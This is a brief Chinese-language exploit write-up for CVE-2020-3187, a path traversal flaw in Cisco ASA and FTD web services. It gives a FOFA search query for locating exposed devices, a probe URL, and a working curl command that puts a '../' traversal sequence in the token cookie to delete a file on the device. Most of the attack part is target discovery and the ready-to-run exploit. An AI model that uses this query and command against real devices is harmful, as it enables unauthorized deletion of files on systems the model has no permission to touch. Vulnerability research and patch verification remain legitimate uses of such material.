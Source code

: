 # Cisco ASA设备任意文件删除漏洞 CVE-2020-3187

## 漏洞描述

Cisco ASA Software和FTD Software中的Web服务接口存在路径遍历漏洞，该漏洞源于程序没有对HTTP URL进行正确的输入验证。远程攻击者可通过发送带有目录遍历序列的特制HTTP请求利用该漏洞读取并删除系统上的敏感信息。

## 漏洞影响

- Cisco ASA设备：



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162118289.png)



- Cisco FTD设备：



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162119368.png)

## FOFA

```
/+CSCOE+/
Cisco-ASA
```

## 漏洞复现

访问 http://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html 存在则可能出现此漏洞

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162119941.png)

例如我们删除一张图片  http://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162119367.png)



使用 curl 发送请求

```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162119779.png)

成功删除图标

